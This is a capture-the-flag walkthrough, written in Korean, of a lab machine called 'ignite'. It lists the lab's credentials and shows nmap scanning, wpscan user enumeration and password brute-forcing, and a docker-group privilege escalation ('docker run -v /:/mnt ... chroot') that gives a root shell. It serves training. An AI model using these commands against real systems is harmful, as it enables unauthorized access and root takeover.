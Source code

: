 Wordpress  
	firewall_admin - firework  
	JY - archives  
	JiH - articles  
	JH - article  
	MJ - archive  
Linux  
	root - firewallrootpassword  
	JY - YXJjaGl2ZXM=  
	JIH - YXJ0aWNsZXM=  
	JH - YXJ0aWNsZQ==  
	MJ - YXJjaGl2ZQ==  
	linux_adnmin -   
		YWxpY2UJYWxpMTIxMg0KYm9iCXBhc3N3b3JkMTIzDQpjaGFybGllCXF3ZXJ0eTQ1Ng0KZGF2ZQlsZXRtZWluNzg5DQpKWQlhcmNoaXZlcw0KSmlICWFydGljbGVzDQpldmUJc2VjdXJlUGFzcyENCmZyYW5rCTEyMzQ1YWJjZGUNCmdyYWNlCWlsb3ZlQ3liZXJDaGVmDQpoZWlkaQloZWxsb1dvcmxkOTkNCkpICWFydGljbGUNCml2YW4Jc2VjcmV0X2tleQ0KanVkeQlzdXBlclN0cm9uZ1B3ZA0KTUoJYXJjaGl2ZQ==  

# 1. 사전 탐색
`nmap victim IP` : 192.168.56.225(fixed), port 22/80/8080  
`http://192.168.56.225/index.html` : html webpage  
`http://192.168.56.225:8080` : wordpress -> wpscan 요구  

# 2. wpscan
`wpscan --url http://192.168.1.225:8080 --enumerate u,p` : User ID 확인  
	![Pasted image 20241010085016.png](./Pasted%20image%2020241010085016.png)

첫 번째 포스트 CTF : ignite page sorce 확인
	![Pasted%20image%2020241010093329.png](./Pasted%20image%2020241010093329.png)
	![Pasted%20image%2020241010085314.png](./Pasted%20image%2020241010085314.png)

`wpscan --url http://192.168.56.225:8080 -U users.txt -P /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt` : ID/PW 확인	
	![Pasted%20image%2020241010092018.png](./Pasted%20image%2020241010092018.png)

# 3. MJ(Chef Worker) 계정 로그인
#### wordpress MJ 계정 로그인
	![Pasted%20image%2020241010092258.png](./Pasted%20image%2020241010092258.png)
	![Pasted%20image%2020241010092402.png](./Pasted%20image%2020241010092402.png)

#### Linux MJ 계정 로그인
ID:MJ / PW:YXJjaGl2ZQ== ("archive" to Base64)

`ls -al` : 숨겨진 List Passcode 파일 - w\[=o%Cvtr7wb ("firewalld" to Ascii85)
	![Pasted%20image%2020241010101627.png](./Pasted%20image%2020241010101627.png)

`ls -l /home` : home 폴더, 모든 폴더는 others가 읽고 실행 가능
	![Pasted%20image%2020241010101651.png](./Pasted%20image%2020241010101651.png)

`ls -al /home/linux_admin` : linux_admin home 폴더, 숨겨진 PASSWORD 파일 
`cat /home/linux_admin/.PASSWORD` : "Linux Admin PW is made with all user's ID and PW"
	![Pasted%20image%2020241010101728.png](./Pasted%20image%2020241010101728.png)

#### Protected: ID/PW List on wordpress
wordpress protected post : "firewalld" 입력
	![Pasted%20image%2020241010095049.png](./Pasted%20image%2020241010095049.png)
	![Pasted%20image%2020241010095132.png](./Pasted%20image%2020241010095132.png)
	![Pasted%20image%2020241010095218.png](./Pasted%20image%2020241010095218.png)

"Linux Admin PW is made with all user's ID and PW" : 모든 ID/PW 복사 -> CyberChef
	![Pasted%20image%2020241010095608.png](./Pasted%20image%2020241010095608.png)


# 4. Linux_admin 계정 로그인
ID : linux_admin / PW : cyberchef 참고

`cat ignite_1_first_flag.txt` : linux_admin flag 확인
	![Pasted%20image%2020241010101832.png](./Pasted%20image%2020241010101832.png)

# 5. Docker 취약점 확인 및 공격
`id linux_admin` : linux_admin ID 확인
	![Pasted%20image%2020241010101849.png](./Pasted%20image%2020241010101849.png)

**Kali**
`docker pull alpine` : alpine docker image download
`docker save -o alpine_image.tar alpine` : alpine image 압축
`scp alpine_image.tar linux_admin@192.168.56.225:/home/linux_admin/` : ssh를 통해 alpine_image.tar 전송

**Linux_admin**
`docker load -i alpine_image.tar` : alpine image download
`docker images` : alpine images 확인
	![Pasted%20image%2020241010105715.png](./Pasted%20image%2020241010105715.png)
`docker run -v /:/mnt -it alpine chroot /mnt sh` : docker image:alpine을 이용해 root 접속
	![Pasted%20image%2020241010105854.png](./Pasted%20image%2020241010105854.png)

# 6. root 계정 / Flag
![Pasted%20image%2020241010105937.png](./Pasted%20image%2020241010105937.png)
